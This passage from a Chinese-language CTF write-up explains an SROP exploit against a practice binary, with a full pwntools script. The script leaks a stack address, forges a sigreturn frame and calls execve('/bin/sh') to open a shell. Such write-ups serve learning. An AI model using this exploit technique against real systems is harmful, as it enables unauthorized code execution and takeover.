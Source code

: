 

然后发现这个地址是在32字节处被接收的

经过观察read函数，发现我们payload从0x7fffffffdf70开始存储，看一下泄露的栈地址距离这个df70的偏移

<img src="/upload/img/image-20220411123213767.png" alt="image-20220411123213767" style="zoom: 33%;" />

偏移拿到，然后就直接构造srop的那个payload即可，我们要保证/bin/sh在df70这个地址，然后经过调试发现这里是要填充16个字节才能到返回地址的，因此我就填了两个/bin/sh\x00，第二次填充别的也行，反正要凑齐十六个字节

Exp如下：

```python
from pwn import *
#p=remote('node4.buuoj.cn',26430)
p=process('./a')
context(arch='amd64',os='linux',log_level='debug')
#gdb.attach(p,'b *'+'0x400517')
#gdb.attach(p)
vul_addr=0x4004ED
kong=0x600e50
modify_rax=0x4004DA
syscall_ret_addr=0x400517
payload='a'*16+p64(vul_addr)
p.send(payload)
leak_addr=u64(p.recv()[32:40])
target_addr=leak_addr-0x118
frame=SigreturnFrame()
frame.rax=0x3b
frame.rdi=target_addr
frame.rdx=0
frame.rsi=0
frame.rip=syscall_ret_addr
frame.rsp=kong
payload='/bin/sh\x00'*2+p64(modify_rax)+p64(syscall_ret_addr)+str(frame)
p.send(payload)
print(hex(target_addr))
p.interactive()
```

这道题其实收获最大的并不是这个正确的exp
